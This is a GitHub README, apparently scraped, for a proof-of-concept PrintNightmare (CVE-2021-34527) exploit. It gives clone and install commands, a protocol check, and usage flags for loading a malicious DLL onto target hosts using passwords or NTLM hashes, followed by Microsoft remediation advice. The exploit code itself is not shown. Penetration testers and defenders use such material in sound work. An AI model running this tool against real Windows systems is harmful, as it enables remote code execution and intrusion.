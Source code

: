 # CVE-2021-34527

PrintNightmare (CVE-2021-34527) PoC Exploit

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/m8sec](https://github.com/m8sec) |
| Url      | [https://github.com/m8sec/CVE-2021-34527](https://github.com/m8sec/CVE-2021-34527)                                               |
| Stars    | 71                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# PrintNightmare (CVE-2021-34527)

This version of the PrintNightmare exploit is based on the code created by [Cube0x0](https://github.com/cube0x0/CVE-2021-1675), with the following features:

* Ability to target multiple hosts.
* Built-in SMB server for payload delivery, removing the need for open file shares.
* Exploit includes both `MS-RPRN` & `MS-PAR` protocols (*define in CMD args*).
* Implements [@gentilkiwi's](https://twitter.com/gentilkiwi) [UNC bypass](https://twitter.com/gentilkiwi/status/1412771368534528001) technique.


## Installation
Before running, install the latest version of [impacket](https://github.com/SecureAuthCorp/impacket):
```commandline
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
python3 setup install

git clone https://github.com/m8sec/CVE-2021-34527
cd CVE-2021-34527
python3 CVE-2021-34527.py -h
```

## Test
Impacket's `rpcdump.py` can be used to check for `MS-PAR` and `MS-RPRN` protocols:
```
>> rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

Alternatively, [byt3bl33d3r's](https://twitter.com/byt3bl33d3r) scanner [ItWasAllADream](https://github.com/byt3bl33d3r/ItWasAllADream) can be used to scan targets and validate the PrintNightmare RCE vulnerability.


## Screenshots
![pnm](https://user-images.githubusercontent.com/13889819/186430046-44143e63-9f29-4109-a4f1-4b005b78a17b.png)


## Usage
```text
  -v VERBOSE            Enable verbose logging from SMB server
  -t TIMEOUT            Connection timeout

Authentication:
  -u USERNAME           Set username
  -H HASH, -hashes      Use NTLM Hash for authentication
  -p PASSWORD           Set password
  -d DOMAIN             Set domain
  --local-auth          Authenticate to target host, no domain

DLL Execution:
  -dll DLL                  Path to local DLL file to execute "beacon.dll"
  --remote-dll REMOTE_DLL   Remote dll "\\192.168.1.25\Share\beacon.dll"
  -share SHARE              Set local SMB share name
  --local-ip LOCAL_IP       Set local IP (defaults to primary interface)

Target(s):
  -pDriverPath PDRIVERPATH  Define Driver path. Example 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL'
  -port [destination port]  Destination port to connect to SMB Server
  -proto {MS-RPRN,MS-PAR}   Target protocol (Default=MS-RPRN)
  target                    192.168.2.2, target.txt, 10.0.0.0/24 (positional)
```


## Remediation
Microsoft has released several patches for PrintNightmare, the latest being on Patch Tuesday of September 2021. This addressed the underlying vulnerability and later workarounds discovered. For more information, visit Microsoft's official guidance:

[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)

Additional [strategies](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527#workarounds) for mitigating this vulnerability include:
* Disabling the Print Spooler service on non-essential systems.
* Disable inbound remote printing through Group Policy


## Acknowledgement
* [@cube0x0](https://twitter.com/cube0x0) - for the Python [exploit](https://github.com/cube0x0/CVE-2021-1675) code and his contributions to the [impacket](https://github.com/SecureAuthCorp/impacket) project. 
* [@edwardzpeng](https://twitter.com/edwardzpeng) & [@lxf02942370](https://twitter.com/lxf02942370)- for the initial discovery and exploit of PrintNightmare.




## Get the content

```
git clone https://github.com/m8sec/CVE-2021-34527
cd CVE-2021-34527
```

{% embed url="https://github.com/m8sec/CVE-2021-34527" %}

<figure><img src="https://avatars.githubusercontent.com/u/13889819?v=4" alt=""><figcaption><p>m8sec</p></figcaption></figure>
